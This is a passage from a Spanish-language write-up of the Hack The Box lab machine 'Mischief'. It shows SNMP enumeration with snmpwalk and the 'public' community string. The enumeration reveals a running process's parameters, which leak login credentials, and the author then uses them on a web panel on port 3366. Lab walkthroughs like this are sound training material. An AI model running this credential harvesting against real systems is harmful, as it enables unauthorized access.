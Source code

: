 ```bash
❯ snmpwalk -v2c -c public 10.10.10.92 hrSWRunName | grep python
HOST-RESOURCES-MIB::hrSWRunName.711 = STRING: "python"
```

Pues bueno podemos seguir enumerando información de ese proceso y podemos ver mucha mas información como comandos que fueron ejecutados y de mas es por eso que es riesgoso tener esta servicio habilitado

Y bueno ya vemos información donde nos están dando las credenciales para conectarnos en el servicio web que esta montado en el puerto **3366** justo el que habíamos visto antes

```bash
❯ snmpwalk -v2c -c public 10.10.10.92 hrSWRunTable | grep "711"
HOST-RESOURCES-MIB::hrSWRunIndex.711 = INTEGER: 711
HOST-RESOURCES-MIB::hrSWRunName.711 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunID.711 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.711 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunParameters.711 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
HOST-RESOURCES-MIB::hrSWRunType.711 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWRunStatus.711 = INTEGER: runnable(2)
```

Pues bueno con estas credenciales podemos conectarnos al primer panel de login que es el que se esta corriendo en el puerto **3366**

![](/assets/images/htb-writeup-mischief/web9.png)

Vamos a usar las credenciales **loki:godofmischiefisloki** y funcionan 
